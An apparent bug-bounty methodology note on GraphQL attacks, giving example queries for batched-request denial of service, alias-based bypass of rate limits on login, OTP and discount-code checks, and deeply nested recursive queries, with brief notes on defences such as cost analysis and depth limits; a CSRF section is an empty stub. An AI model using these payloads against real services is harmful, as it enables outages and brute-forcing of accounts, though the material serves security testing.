 
## Batch Query Attacks

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL, which makes it a good candidate for Denial of Service attacks, as well as other attacks such as Brute Force and Enumeration.
If a resource intensive GraphQL query is identified, an attacker may leverage batch processing to call the query and potentially overwhelm the service for a prolonged period of time.
```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```
Or bypass rate limiting on Login, OTP...
```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.



## Denial of Service :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

## [GraphQL CSRF](https://portswigger.net/web-security/graphql#graphql-csrf)

6. 

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

## Refrences
- [Bypassing rate limiting using Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
